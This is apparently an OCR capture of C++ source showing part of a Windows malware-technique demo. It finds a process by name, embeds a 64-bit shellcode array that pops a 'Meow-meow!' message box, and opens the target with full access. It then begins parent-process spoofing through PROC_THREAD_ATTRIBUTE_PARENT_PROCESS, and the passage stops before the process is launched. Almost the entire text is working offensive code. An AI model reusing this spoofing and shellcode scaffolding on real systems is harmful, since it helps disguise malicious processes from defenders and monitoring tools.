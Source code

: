 ```cpp
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}


int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  STARTUPINFOEXA si;
  PROCESS_INFORMATION pi;
  SIZE_T st;
  int pid = findMyProc(argv[1]);
  if (pid) {
    printf("PID = %d\n", pid);
  }

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);

  ZeroMemory(&si, sizeof(STARTUPINFOEXA));
  InitializeProcThreadAttributeList(NULL, 1, 0, &st);
  si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, st);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &st);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

```